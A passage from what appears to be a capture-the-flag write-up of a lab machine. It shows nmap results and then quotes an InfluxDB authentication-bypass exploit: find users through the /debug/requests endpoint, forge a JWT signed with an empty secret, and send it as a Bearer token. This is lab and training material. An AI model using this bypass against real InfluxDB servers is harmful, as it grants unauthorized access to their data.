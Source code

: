 From the results, we see that there are 4 ports open: **111 (RPC)**, **2222 (SSH)**, **8086 (InfluxDB)** and **37240 (RPC)**

The database that is running is: **InfluxDB**

---

### [ What is the database user you find? ]

Based on nmap's results, the service that seems the most interesting to tackle is the InfluxDB server.

I did a lot of research online on methods to exploit InfluxDB. Eventually, I came across this [article](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day).

Essentially, we are able to authenticate to the InfluxDB server by creating a JWT token with a valid user, an empty secret and a valid expiry date. We can then use the InfluxDB API to query the database using `curl`:

```
// EXPLOIT

1. Discover a user name in the system via the following URL:
https://<influx-server-address>:8086/debug/requests


2. Create a valid JWT token with this user, an empty secret, and a valid expiry date
You can use the following tool for creating the JWT: https://jwt.io/

header - {"alg": "HS256", "typ": "JWT"}
payload - {"username":"<input user name here>","exp":1548669066}
signature - HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),<leave this field empty>)

The expiry date is in the form of epoch time.


3. Authenticate to the server using the HTTP header:
Authorization: Bearer <The generated JWT token>

There you have it, now you are logged into the system. You can now query the data using InfluxQL.
```

To discover a valid user on the DB, let's visit `http://10.10.179.212:8086/debug/requests`:

![screenshot1](../assets/images/sweettooth_inc/screenshot1.png)
